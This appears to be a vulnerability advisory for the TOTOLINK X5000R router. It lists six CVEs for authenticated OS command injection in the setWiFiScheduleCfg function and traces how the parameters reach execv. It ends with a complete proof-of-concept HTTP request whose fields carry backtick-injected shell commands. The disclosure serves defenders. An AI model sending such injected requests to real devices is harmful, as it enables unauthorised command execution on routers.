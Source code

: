 # totolink X5000r
## CVEIDs

The CVEIDs of these vulnerabilities and the corresponding vulnerable parameters are as follows.

CVE-2024-57020，vulnerable parameter：`sMinute`

CVE-2024-57021，vulnerable parameter：`eHour`

CVE-2024-57022，vulnerable parameter： `sHour`

CVE-2024-57023，vulnerable parameter：`week`

CVE-2024-57024，vulnerable parameter：`eMinute`

CVE-2024-57025，vulnerable parameter：`desc`

## Firmware version

totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWiFiScheduleCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWiFiScheduleCfg` (at 0x4139DC), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `desc`, `week`, `sHour`, `sMinute`, `eHour`, `eMinute`) are passed to the `Uci_Add_List` function without any check.
![](setWiFiScheduleCfg.png)
The `Uci_Add_List` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Add_List().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 204
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/wifi_schedule.html?idx=0
Priority: u=0

{"isGuest":"0","enable":"1","desc":"test`ls>/tmp/1`","week":"1`ls>/tmp/2`","sHour":"1`ls>/tmp/3`","sMinute":"2`ls>/tmp/4`","eHour":"3`ls>/tmp/5`","eMinute":"4`ls>/tmp/6`","addEffect":"1","topicurl":"setWiFiScheduleCfg","token":"83a219174b3904555bd7ffa8e1b30653"}
```
